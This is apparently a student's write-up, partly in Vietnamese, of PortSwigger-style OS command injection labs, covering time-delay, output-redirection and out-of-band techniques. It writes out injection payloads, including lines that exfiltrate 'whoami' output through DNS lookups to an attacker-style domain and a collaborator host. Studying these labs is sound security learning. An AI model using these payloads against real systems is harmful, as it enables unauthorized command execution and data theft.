 # Kiến thức cần biết:

## Useful command

![alt text](./img/need1.png)

## Nhận biết time-delay

![alt text](./img/need2.png)

## Mô hình phục vụ file tĩnh của webserver

- Hầu hết web server đều có 1 thư mục chứa static files, và mapping ```URL ↔ filesystem```. Nếu bạn xác định đúng thư mục này và ghi được file vào đó ⇒ có thể phục vụ như một kênh ```out-of-band``` để thu thập dữ liệu.


# Lab OS Command Injection:

## Lab: OS command injection, simple case

**END goals**: execute the whoami command to determine the name of the current user

![alt text](./img/lab1-1.png)

![alt text](./img/lab1-2.png)

- Append ';' after ```storeId``` to execute ```whoami``` command


## Lab: Blind OS command injection with time delays

**END goals**: exploit the blind OS command injection vulnerability to cause a 10 second delay.

-Vulnerable: feedback function

![alt text](./img/lab2-1.png)

- We see the message we retrieve just ```Thank u for …``` ==>Out of band.

![alt text](./img/lab2-2.png)

- We have 5 parameter

==>Try append ```; sleep 10 #``` after each parameter.

![alt text](./img/lab2-3.png)

==>See that after email parameter, we have 10s to send this packet.

==>email được chèn trực tiếp vào shell.


## Lab: Blind OS command injection with output redirection

**END goals**: execute the whoami command and retrieve the output.

- Phân tích: Giống lab trước nhưng giờ ta cần chạy lệnh whoami và đọc được nó.

- Khi mở 1 ảnh bất kì ở home:

![alt text](./img/lab3-1.png)

![alt text](./img/lab3-2.png)

-Thấy đường dẫn là 1 static resources từ filesystem: ```/var/www/image/...```

==>Giờ như lab trước, append ```;whoami > file.txt #``` để lấy nội dung của lệnh ```whoami``` gán vào ```file.txt```

![alt text](./img/lab3-3.png)

- Giờ vào vào link đổi ```filename=file.txt``` để đọc whoami:

![alt text](./img/lab3-4.png)


## Lab: Blind OS command injection with out-of-band interaction

**END goals**: exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator

- Lab này minh họa ```Blind OS Command Injection với Out-of-Band (OOB) Interaction```, cụ thể là qua ```DNS lookup``` đến Burp Collaborator – một kỹ thuật khai thác thường dùng khi:      
    • Không nhận được đầu ra trực tiếp từ lệnh hệ điều hành (HĐH)

    • Không thể chuyển hướng đầu ra đến file có thể truy cập

    • Và khi lệnh được thực thi một cách bất đồng bộ (asynchronously)

🧰 Mô tả tình huống trong lab

    • Chức năng feedback đang truyền input người dùng vào lệnh shell.

    • Lệnh chạy asynchronously ⇒ không làm chậm response và không hiển thị gì cả.

    • Không thể sử dụng redirect file như bài trước.

    • Phải dùng kỹ thuật OOB (out-of-band) như DNS hoặc HTTP request đến domain bên ngoài.


📌 Quan trọng

    • Mục tiêu ở đây không phải là xem kết quả của lệnh, mà là xác định lệnh có được thực thi hay không.

    • Việc nslookup tạo DNS request ra ngoài là đủ để chứng minh rằng payload đã được thực thi thành công.

-Dùng lệnh:```|| nslookup server_collaborator ||``` gán vào sau email:

![alt text](./img/lab4.png)


## Lab: Blind OS command injection with out-of-band data exfiltration

**END goals**: execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator.

The out-of-band channel provides an easy way to exfiltrate the output from injected commands:

```& nslookup `whoami`.kgji2ohoyw.web-attacker.com &```

This causes a DNS lookup to the attacker's domain containing the result of the whoami command:

```wwwuser.kgji2ohoyw.web-attacker.com```


==>```||ping `whoami`.7dltaij24l4p3pave6g7jfotbkhb53ts.oastify.com||```

Giống bài ```Lab: Blind SSRF with Shellshock exploitation``` bên SSRF.
